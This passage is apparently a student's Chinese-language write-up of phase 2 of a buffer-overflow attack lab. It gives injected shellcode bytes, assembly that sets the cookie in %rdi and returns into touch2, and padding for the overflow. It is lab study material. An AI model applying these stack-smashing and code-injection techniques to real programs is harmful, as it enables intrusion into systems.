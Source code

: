 >31 31 31 31 31 31 31 31 31 31 
>31 31 31 31 31 31 31 31 31 31 (40个任意的字符)
>c0 17 40
>```
>
>



### phase_2

>
>
>ret的时候，先执行：把cookie赋值给$rdi，然后再跳转到touch2()
>
>```
>mov $0x59b997fa,%rdi
>mov $0x4017ec,%rsp
>push %rsp
>ret
>
>前面是一些填充字节
>然后ret到这里
>
>
>回到缓冲区
>4017a8
>
>mov $0x4017ec,%eax
>push %eax
>mov $0x59b997fa,%rdi
>ret
>
>```
>
><img src="https://yszhou.oss-cn-beijing.aliyuncs.com/img/20210528162244.png" alt="image-20210528162244714" style="zoom:80%;" />
>
>然后 PASS!
>
><img src="https://yszhou.oss-cn-beijing.aliyuncs.com/img/20210528162317.png" alt="image-20210528162317614" style="zoom:80%;" />
>
>首先修改跳转指令，跳转到buffer，开始执行buffer的指令，
>
>buffer中的指令的逻辑是，修改$rdi为cookie，然后将touch2的地址push入栈，然后ret即可（此时的rsp仍然在getbuf函数栈上，push touch2地址之后，rsp刚好处于call get_buf的位置和buffer结尾中间。
>
>相应的指令生成
>
>```asm
>0000000000000000 <.text>:
>   2:	48 c7 c0 ec 17 40 00 	mov    $0x4017ec,%rax
>   9:	50                   	push   %rax
>   a:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
>  11:	c3                   	retq   
>```
>
>最后需要注意的部分
>
>```bash
>48 c7 c0 ec 17 40 00 50 48 c7 
>c7 fa 97 b9 59 c3 31 31 31 31 
>31 31 31 31 31 31 31 31 31 31 
>31 31 31 31 31 31 31 31 31 31 